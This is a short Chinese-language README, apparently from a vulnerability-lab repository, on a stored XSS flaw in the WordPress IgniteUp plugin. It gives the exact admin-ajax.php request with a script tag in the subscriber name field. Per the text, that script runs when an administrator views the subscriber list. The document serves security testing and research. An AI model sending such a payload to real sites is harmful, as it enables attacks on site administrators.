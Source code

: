 ## 说明

原文https://blog.nintechnet.com/multiple-vulnerabilities-in-wordpress-igniteup-coming-soon-and-maintenance-mode-plugin/
总共发现了4个cve，都说是未授权的，但是我看很多都是admin_init的，绕不过wordpress本身的认证，可能是方式不太对...

这个是存储型xss漏洞的利用，压缩包是插件

### payload:

/wp-admin/admin-ajax.php?action=subscribe_email&cs_email=1@11.coc.com&cs_name=<script>alert(1)</script>

![image](https://github.com/guobaoyou/vul_environment/blob/master/wordpress_igniteup_plugin_xss
/images/1.jpg)

当管理员查看Subscribers时，触发漏洞。
![image](https://github.com/guobaoyou/vul_environment/blob/master/wordpress_igniteup_plugin_xss
/images/2.jpg)
